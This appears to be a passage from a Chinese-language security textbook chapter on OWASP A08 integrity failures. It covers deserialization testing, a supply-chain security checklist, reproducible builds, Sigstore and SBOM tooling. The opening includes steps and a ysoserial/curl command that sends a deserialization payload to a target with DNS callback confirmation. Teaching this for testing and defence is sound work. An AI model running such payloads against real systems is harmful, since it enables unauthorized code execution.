1. **识别反序列化入口**：通过代码审计或流量分析，找到应用接受序列化数据的接口
2. **确认序列化格式**：检查 Content-Type 头、Magic Bytes（Java: `AC ED 00 05`、PHP: `O:` 或 `a:`）
3. **探测可用 Gadget**：使用 GadgetProbe 或 DNS 外带确认 classpath 中的库
4. **生成并发送 Payload**：使用 ysoserial 等工具生成 payload
5. **验证执行**：通过 DNS 外带（DNSLog）、HTTP 回连（Burp Collaborator）或时间延迟确认命令执行

```bash
# 使用 DNSLog 验证反序列化 RCE（Java）
java -jar ysoserial.jar DNSLog 'your-id.dnslog.cn' > payload.ser
curl -X POST http://target/api/deserialize --data-binary @payload.ser
# 然后检查 dnslog.cn 是否收到 DNS 查询
```

#### 14.9.8.2 供应链安全评估清单

```text
□ 依赖管理
  □ 是否有 package-lock.json / requirements.txt（锁定版本）
  □ 是否启用了 integrity hash 校验
  □ 是否使用私有仓库托管内部包
  □ 是否定期运行 npm audit / pip-audit / snyk test
  □ 是否有传递依赖的可见性（npm ls / pipdeptree）

□ CI/CD 管道
  □ 构建脚本是否受版本控制保护
  □ CI/CD 凭据是否遵循最小权限原则
  □ 构建日志是否脱敏（无密钥/token 泄露）
  □ 是否使用固定版本的构建工具（非 latest 标签）
  □ 构建产物是否有数字签名

□ 更新机制
  □ 自动更新是否验证数字签名
  □ 下载是否使用 HTTPS
  □ 是否有回滚机制
  □ 是否有更新完整性校验（hash）

□ SBOM 与漏洞管理
  □ 是否生成和维护 SBOM
  □ 是否有自动化漏洞扫描集成到 CI/CD
  □ 是否有已知漏洞的响应流程
  □ 是否有依赖更新策略和 SLA
```

### 14.9.9 常见误区与纠正

| 误区 | 事实 |
|------|------|
| "用了 HTTPS 就安全了" | HTTPS 保护传输安全，但无法防御构建时注入、仓库账号被劫持、依赖混淆等攻击 |
| "开源代码是安全的，因为有社区审计" | event-stream 有数百万下载量，依然被注入恶意代码；审计覆盖率与下载量不成正比 |
| "我们只用知名包，不会有供应链风险" | ua-parser-js 周下载 700 万+，Codecov 是行业标准工具，都被攻破了 |
| "锁定了版本号就够了" | 版本锁定无法防御构建时注入或仓库账号被劫持——攻击者可以发布同一版本的新内容 |
| "反序列化漏洞只影响 Java" | PHP、Python、Ruby、.NET 都存在反序列化漏洞，只是利用方式不同 |
| "我们有 WAF，可以拦截" | WAF 对序列化 payload 的检测能力有限，高度混淆的 payload 很容易绕过 |
| "依赖漏洞扫描 = 供应链安全" | 漏洞扫描只能发现已知漏洞，无法检测故意植入的恶意代码或零日供应链攻击 |

### 14.9.10 进阶内容

#### 14.9.10.1 可重现构建（Reproducible Builds）

可重现构建是指：给定相同的源码和构建环境，任何人都应该能够产生**逐字节相同**的构建产物。这是防御构建时注入攻击的终极方案——即使攻击者篡改了构建系统，独立验证者通过从源码重新构建并对比 hash，就能发现篡改。

```bash
# Debian 的可重现构建验证
# 获取构建信息
curl -O https://buildinfos.debian.net/buildinfo-pool/a/attr/attr_2.5.1-2_amd64.buildinfo

# 本地重新构建
apt-get source attr=2.5.1-2
cd attr-2.5.1
debuild -b

# 对比产物 hash
sha256sum ../attr_2.5.1-2_amd64.deb
# 与 .buildinfo 文件中的 hash 对比
```

#### 14.9.10.2 内容可寻址存储（Content-Addressable Storage）

Git、IPFS、Nix 等系统使用内容哈希作为地址，天然具备完整性验证能力：

```bash
# Git 的对象模型本身就是内容可寻址的
git hash-object --stdin < file.txt
# 输出的 SHA-1/SHA-256 就是该文件内容的唯一标识
# 如果文件内容被篡改，hash 会变化，Git 会检测到

# Nix 包管理器的完整性模型
nix-store --verify --check-contents
# 验证所有 store path 的 hash 是否与注册值匹配
```

#### 14.9.10.3 软件签名与验证的未来：Sigstore 生态

Sigstore 是一个由 Linux 基金会托管的免费软件签名生态系统，旨在降低软件签名的门槛：

```bash
# 使用 keyless signing（基于 OpenID Connect 的临时证书）
cosign sign registry.example.com/app:v1.0
# 无需管理长期密钥，签名基于短期临时证书 + 透明日志（Rekor）

# 验证签名
cosign verify --certificate-identity user@example.com \
  --certificate-oidc-issuer https://accounts.google.com \
  registry.example.com/app:v1.0

# 查看透明日志中的签名记录
rekor-cli search --artifact app-v1.0.tar.gz
```

#### 14.9.10.4 二进制软件物料清单（Binary SBOM）

对于没有源码的闭源软件，可以使用运行时分析生成 SBOM：

```bash
# 使用 Trivy 分析容器镜像中的已知组件
trivy image --format spdx-json registry.example.com/app:latest > image-sbom.spdx.json

# 使用 Syft 分析二进制文件
syft file:/path/to/binary -o cyclonedx-json > binary-sbom.cdx.json

# 对比两个版本的 SBOM 以发现新增依赖
diff <(jq -r '.packages[].name' sbom-v1.json | sort) \
     <(jq -r '.packages[].name' sbom-v2.json | sort)
```

### 14.9.11 与其他 OWASP 风险的关联

A08 不是孤立存在的风险，它与 OWASP Top 10 的其他类别有着密切的关联：

- **A01（失效的访问控制）**：CI/CD 系统的访问控制缺陷是 A08 供应链攻击的前提条件
- **A02（加密机制失效）**：缺乏加密签名能力是 A08 完整性验证失败的技术根因
- **A03（注入）**：不安全的反序列化本质上是一种特殊的代码注入
- **A04（不安全设计）**：没有将完整性验证纳入系统设计是 A08 的架构层面根因
- **A06（脆弱和过时的组件）**：使用已知漏洞组件是供应链安全的一个维度，但 A08 更关注获取和部署这些组件的流程安全
- **A09（安全日志与监控失效）**：缺乏对更新和部署过程的日志记录会导致供应链攻击无法被及时发现
- **A10（SSRF）**：SSRF 可被用于攻击内网的 CI/CD 系统和制品仓库

理解这些关联有助于构建系统性的安全防御——单独修复某一类风险是不够的，攻击者会利用多个风险的组合来突破防线。

***
